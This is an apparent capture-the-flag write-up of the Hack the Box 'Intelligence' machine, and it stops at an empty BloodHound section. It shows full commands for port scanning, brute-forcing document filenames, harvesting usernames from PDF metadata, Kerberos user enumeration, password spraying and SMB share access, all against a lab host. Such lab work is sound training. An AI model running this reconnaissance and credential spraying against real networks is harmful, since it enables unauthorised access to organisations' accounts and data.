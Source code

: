 # Hack the Box - Intelligence

```CSS
Nachine IP: 10.10.10.248
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.248 -T4 --min-rate 1000 -oN nmap.surface

Nmap scan report for 10.10.10.248
Host is up (0.18s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49691/tcp open  unknown
49692/tcp open  unknown
49707/tcp open  unknown
49714/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 304.78 seconds
```

```CSS
▶ nmap -sC -sV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49691,49692,49707,49714 10.10.10.248 -oN nmap.deep

Nmap scan report for 10.10.10.248                                                                                                                                           
Host is up (0.18s latency).                                                                                                                                                 
                                                                                                                                                                            
PORT      STATE SERVICE       VERSION                                                                                                                                       
53/tcp    open  domain        Simple DNS Plus                                                                                                                               
80/tcp    open  http          Microsoft IIS httpd 10.0                                                                                                                      
| http-methods:                                                                                                                                                             
|_  Potentially risky methods: TRACE                                                                                                                                        
|_http-server-header: Microsoft-IIS/10.0                                                                                                                                    
|_http-title: Intelligence                                                                                                                                                  
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-10 09:15:40Z)                                                                                
135/tcp   open  msrpc         Microsoft Windows RPC                                                                                                                         
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                                                 
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)                                           
|_ssl-date: 2023-04-10T09:17:11+00:00; +6h59m58s from scanner time.                                                                                                         
| ssl-cert: Subject: commonName=dc.intelligence.htb                                                                                                                         
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb                                                                         
| Not valid before: 2021-04-19T00:43:16                                                                                                                                     
|_Not valid after:  2022-04-19T00:43:16                                                                                                                                     
445/tcp   open  microsoft-ds?                                                                                                                                               
464/tcp   open  kpasswd5?                                                                                                                                                   
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                                                                                                           
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)                                           
|_ssl-date: 2023-04-10T09:17:12+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-10T09:17:11+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-10T09:17:12+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-04-10T09:16:35
|_  start_date: N/A
|_clock-skew: mean: 6h59m57s, deviation: 0s, median: 6h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.93 seconds
```

---

## HTTP Port #80
  - Homepage
![image](https://user-images.githubusercontent.com/83878909/230812679-60dfc045-321b-4e62-b577-3006e048ab79.png)

  - Announcement Document
![image](https://user-images.githubusercontent.com/83878909/230812932-cad5e527-0fd3-40b5-a09e-62a087f9aebd.png)

  - Other Document
![image](https://user-images.githubusercontent.com/83878909/230813172-f7359efc-a356-4629-9a8a-64564ee6cb07.png)

---

## Brute-Force PDF Filenames
  - Create a wordlist to brute-force the `date`, maybe some other documents exist.
```CSS
▶ for i in $(seq $(date -d "2020-01-01" +%s) 86400 $(date -d "2021-05-15" +%s)); do date -d @$i "+%Y-%m-%d-upload.pdf"; done > files.txt
```
- Brute-Force the filename.
```CSS
▶ for i in $(cat files.txt); do wget http://10.10.10.248/documents/$i; done
```
  - Files found.
![image](https://user-images.githubusercontent.com/83878909/230816862-cc30d963-0b39-4c13-b2cc-7e89e51206b3.png)

---

## Exiftool PDF Meta-data
  - PDF files meta-data.
![image](https://user-images.githubusercontent.com/83878909/230817269-96fbdaa8-e0a4-48e0-b13e-b00ef8405861.png)
  - Extract creator names from meta-dta of all the PDF files.
```CSS
▶ pdf exiftool *pdf | grep Creator | awk '{print $3}' | sort -u > creators.txt
```
```CSS
Anita.Roberts
Brian.Baker
Brian.Morris
Daniel.Shelton
Danny.Matthews
Darryl.Harris
David.Mcbride
David.Reed
David.Wilson
Ian.Duncan
Jason.Patterson
Jason.Wright
Jennifer.Thomas
Jessica.Moody
John.Coleman
Jose.Williams
Kaitlyn.Zimmerman
Kelly.Long
Nicole.Brock
Richard.Williams
Samuel.Richardson
Scott.Scott
Stephanie.Young
Teresa.Williamson
Thomas.Hall
Thomas.Valenzuela
Tiffany.Molina
Travis.Evans
Veronica.Patel
William.Lee
```

---

## Kerbrute Validate Usernames
```CSS
▶ kerbrute userenum creators.txt --dc 10.10.10.248 -d intelligence.htb
```
![image](https://user-images.githubusercontent.com/83878909/230821076-266f1262-a0a6-4d35-bd21-025be8a3c845.png)

---

## Sensitive Information (Passwords)
  -  Convert all `pdf` files to `text`.
```CSS
▶ for i in $(ls); do pdftotext $i; done
```

  - Passwords
```CSS
▶ cat *.txt | grep -i password -B5 -A5
```
![image](https://user-images.githubusercontent.com/83878909/230822841-3abc40df-e706-4d56-8fbe-1c1b6a0fcab9.png)
  - Password: `NewIntelligenceCorpUser9876`

---

## Kerbrute Password Spray
```
▶ kerbrute userenum creators.txt NewIntelligenceCorpUser9876 --dc 10.10.10.248 -d intelligence.htb -v
```
![image](https://user-images.githubusercontent.com/83878909/230831769-4dfc3fc7-a2ab-4be5-a034-bbb67725fe2b.png)

---

## Attempt Logins
  - SMB Login: Failed
```CSS
▶ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876
```
![image](https://user-images.githubusercontent.com/83878909/230832417-7e22c44a-e4b7-4c57-8074-1f134362893b.png)

  - Winrm Login: Failed
```CSS
▶ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares
```
![image](https://user-images.githubusercontent.com/83878909/230832825-500c2c4c-c5bc-408f-9054-ff525fc9189e.png)

---

## SMB Shares
  - List SMB Shares
```CSS
▶ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares
```
![image](https://user-images.githubusercontent.com/83878909/230832582-d9290c11-90a7-4a0d-bd7a-fafde4a67b18.png)

---

## BloodHound
```
▶ 
```
